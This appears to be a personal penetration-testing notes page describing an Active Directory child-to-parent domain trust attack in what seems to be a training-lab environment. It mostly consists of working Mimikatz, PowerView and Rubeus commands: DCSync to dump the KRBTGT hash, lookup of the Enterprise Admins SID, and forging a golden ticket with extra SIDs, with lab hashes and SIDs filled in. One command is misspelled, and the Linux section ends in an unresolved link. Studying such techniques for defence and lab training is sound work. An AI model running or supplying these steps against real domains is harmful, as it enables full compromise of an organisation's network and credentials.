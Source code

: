 -- -
This is a trust relationship attack that you pull off after you have taken over a child domain. It is used to take over the parent domain by abusing the trust relationship and SIDs. 
#### Requirements
- The `KRBTGT` hash for the child domain
- The `SID` for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The `FQDN` of the child domain.
- The `SID` of the Enterprise Admins group of the root domain
- Mimikatz
## Windows
#### Get KRBTGT via Golden Ticket Attack
We are attempting to get a KRBTGT. KRBTGT Stands for Kerberos Ticket Granting Ticket. It's a ticket for the Service Account used to encrypt and sign all Kerberos tickets granted within the given domain. Can be used to request TGS tickets for any service on any host in the domain. Also known as the #GoldenTicket. This is a well-known #persistence method. 
After you have domain admin (or similar), log into said privileged account on a host (or DC) in the domain. Run DCSync attack to obtain the hash for the KRBTGT account.
```powershell
.\mimikatz.exe
privilege::debug
lsadump::dcsync /user:<domain>\krbtgt
lsadump::dcsync /user:LOGISTICS\krbtgt
```

The child domain SID should be output by mimikatz if you use the method linked above, but otherwise you can also determine this by running the following on the child domain you have compromised via PowerView:
```powershell
Get-DFomainSID
```
#### Get Enterprise Admins Group's SID
```Powershell
# PowerView
Get-DomainGroup -Domain <domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

#Powershell
Get-ADGroup -Identity "Enterprise Admins" -Server <domain>
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL".
```
#### Create Golden Ticket
**mimikatz**
```powershell
mimikatz.exe
kerberos::golden /user:<username> /domain:<domain> /sid:<child domain sid> /krbtgt:<krbtgt hash> /sids:<enterprise admin sid> /ptt

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# verify golden ticket was created and resides in memory, run outside mimikatz
klist
```

**Rubeus**
```powershell
.\Rubeus.exe golden /rc4:<krbtgt hash> /domain:<domain> /sid:<child domain sid> /sids:<enterprise admin sid> /user:<username> /ptt

.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# verify golden ticket was created and resides in memory
klist
```
#### DCSync attack
```powershell
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

## Linux
#### Get KRBTGT NTLM hash of Child-Domain
Perform a DCSync attack on the child domain to dump the NTLM hash of the KRBTGT of the child-domain.
![[Hacking Scratch/Tools/Active Directory/Impacket/secretsdump#^c004aa]]
